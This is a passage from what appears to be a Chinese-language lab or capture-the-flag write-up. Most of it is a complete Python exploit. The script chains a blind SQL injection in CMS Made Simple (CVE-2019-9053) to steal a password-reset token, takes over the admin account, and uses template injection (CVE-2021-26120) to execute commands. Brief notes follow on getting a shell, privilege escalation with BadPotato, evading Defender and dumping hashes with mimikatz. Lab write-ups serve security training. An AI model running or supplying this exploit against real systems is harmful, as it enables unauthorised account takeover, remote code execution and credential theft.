 import requestsimport sysimport refrom time import sleepfrom lxml import etreedef login(s, t, usr):    uri = "%sadmin/login.php" % t    s.get(uri)    d = {        "username" : usr,        "password" : usr,        "loginsubmit" : "Submit"    }    r = s.post(uri, data=d)    match = re.search("style.php\?__c=(.*)\"", r.text)    assert match, "(-) login failed"    return match.group(1)def trigger_or_patch_ssti(s, csrf, t, tpl):    # CVE-2021-26120    d = {        "mact": 'DesignManager,m1_,admin_edit_template,0',        "__c" : csrf,        "m1_tpl" : 10,        "m1_submit" : "Submit",        "m1_name" : "Simplex",        "m1_contents" : tpl    }    r = s.post("%sadmin/moduleinterface.php" % t, files={}, data=d)    if"rce()" in tpl:        r = s.get("%sindex.php" % t)        assert ("endrce" in r.text), "(-) rce failed!"        cmdr = r.text.split("endrce")[0]        print(cmdr.strip())def determine_bool(t, exp):    p = {       "mact" : "News,m1_,default,0",       "m1_idlist": ",1)) and %s-- " % exp    }    r = requests.get("%smoduleinterface.php" % t, params=p)     return True if r.text.count("Posted by:") == 2else Falsedef trigger_sqli(t, char, sql, c_range):    # CVE-2019-9053    for i in c_range:        # <> characters are html escaped so we just have =        # substr w/ from/for because anymore commas and the string is broken up resulting in an invalid query        if determine_bool(t, ",1)) and ascii(substr((%s) from %d for 1))=%d-- " % (sql, char, i)): return chr(i)     return-1    def leak_string(t, sql, leak_name, max_length, c_range):    sys.stdout.write("(+) %s: " % leak_name)    sys.stdout.flush()    leak_string = ""    for i in range(1,max_length+1):        c = trigger_sqli(t, i, sql, c_range)        # username is probably < 25 characters        if c == -1:            break        leak_string += c        sys.stdout.write(c)        sys.stdout.flush()    assert len(leak_string) > 0, "(-) sql injection failed for %s!" % leak_name    return leak_string        def reset_pwd_stage1(t, usr):    d = {        "forgottenusername" : usr,        "forgotpwform" : 1,    }    r = requests.post("%sadmin/login.php" % t, data=d)    assert ("User Not Found" not in r.text), "(-) password reset failed!"def reset_pwd_stage2(t, usr, key):    d = {        "username" : usr,        "password" : usr,      # just reset to the username        "passwordagain" : usr, # just reset to the username        "changepwhash" : key,        "forgotpwchangeform": 1,        "loginsubmit" : "Submit",    }    r = requests.post("%sadmin/login.php" % t, data=d)    match = re.search("Welcome: <a href=\"myaccount.php\?__c=[a-z0-9]*\">(.*)<\/a>", r.text)    assert match, "(-) password reset failed!"    assert match.group(1) == usr, "(-) password reset failed!"def leak_simplex(s, t, csrf):    p = {        "mact" : "DesignManager,m1_,admin_edit_template,0",        "__c" : csrf,        "m1_tpl" : 10    }    r = s.get("%sadmin/moduleinterface.php" % t, params=p)    page = etree.HTML(r.text)    tpl = page.xpath("//textarea//text()")    assert tpl is not None, "(-) leaking template failed!"    return"".join(tpl)def remove_locks(s, t, csrf):    p = {        "mact" : "DesignManager,m1_,admin_clearlocks,0",        "__c" : csrf,        "m1_type" : "template"    }    s.get("%sadmin/moduleinterface.php" % t, params=p)def main():    if(len(sys.argv) < 4):        print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])        print("(+) eg: %s 192.168.75.141 / id" % sys.argv[0])        print("(+) eg: %s 192.168.75.141 /cmsms/ \"uname -a\"" % sys.argv[0])        return    pth = sys.argv[2]    cmd = sys.argv[3]    pth = pth + "/"if not pth.endswith("/") else pth    pth = "/" + pth if not pth.startswith("/") else pth    # target = "http://%s%s" % (sys.argv[1], pth)    target="http://www.my.cs1ab.com/"    print("(+) targeting %s" % target)    if determine_bool(target, "1=1") and not determine_bool(target, "1=2"):        print("(+) sql injection working!")    print("(+) leaking the username...")    username = "cslab"    print("\n(+) resetting the %s's password stage 1" % username)    reset_pwd_stage1(target, username)    print("(+) leaking the pwreset token...")    pwreset = leak_string(        target,        "select value from cms_userprefs where preference=0x70777265736574 and user_id=1", # qoutes will break things        "pwreset",        32, # md5 hash is always 32        list(range(48,58)) + list(range(97,103)) # charset: 0-9a-f    )    print(pwreset)    print("\n(+) done, resetting the %s's password stage 2" % username)    reset_pwd_stage2(target, username, pwreset)    session = requests.Session()    # print("(+) logging in...")    csrf = login(session, target, username)    # print("(+) leaking simplex template...")    remove_locks(session, target, csrf)    simplex_tpl = leak_simplex(session, target, csrf)    print("(+) injecting payload and executing cmd...\n")    rce_tpl = "{function name='rce(){};system(\"%s\");function '}{/function}endrce" % cmd    trigger_or_patch_ssti(session, csrf, target, rce_tpl+simplex_tpl)    while True:        r = session.get("%sindex.php" % target)        if"endrce" not in r.text:            break        trigger_or_patch_ssti(session, csrf, target, simplex_tpl)if __name__ == '__main__':    main()
```  
  
找了个脚本，但是这个脚本只能指定ip，于是就改了下，ip部分可以随便输入，直接用脚本打即可RCE，getshell之后使用badpotato提权即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LtPy9FCOnrdqB1ibSquObljSpQibjuG4kmgveXX6mDDen21q4QG6sT0azT8MkNxHsmpOhFsmic3QrcrHHicdCjkSiag/640?wx_fmt=png&from=appmsg "null")  
  
  
注意有Defender，需要免杀。使用mimikatz读取hash即可。# flag2（用友U8C RCE）  
  
172.10.68.30  
```